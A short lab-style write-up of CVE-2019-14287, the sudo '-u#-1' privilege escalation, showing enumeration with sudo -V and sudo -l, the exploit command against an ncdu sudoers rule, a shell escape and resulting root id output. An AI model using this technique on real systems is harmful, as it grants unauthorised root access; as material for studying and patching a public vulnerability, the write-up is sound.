

# CVE-2019-14287 - sudo - all versions below 1.8.28 (bug is fixed in sudo 1.8.28)

Vulnerability was found in 2019 that affected all versions below 1.8.28, which allowed privileges to escalate even with a simple command. This vulnerability has the CVE-2019-14287 and requires only a single prerequisite. It had to allow a user in the /etc/sudoers file to execute a specific command.

## Enumeration

```bash
$ sudo -V

Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

There is one requarimente 

```bash
$ sudo -l

Matching Defaults entries for student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on ubuntu:
    (ALL, !root) /bin/ncdu
```

## Exploitation

```bash
$ sudo -u#-1 /bin/ncdu
```



```bash
b
```

```bash
# id
uid=0(root) gid=1001(student) groups=1001(student)
```

## Links

- [](https://www.sudo.ws/security/advisories/minus_1_uid/)
- [GTFOBins](https://gtfobins.github.io/)
- [GTFOBins - ncdu](https://github.com/GTFOBins/GTFOBins.github.io/pull/417)
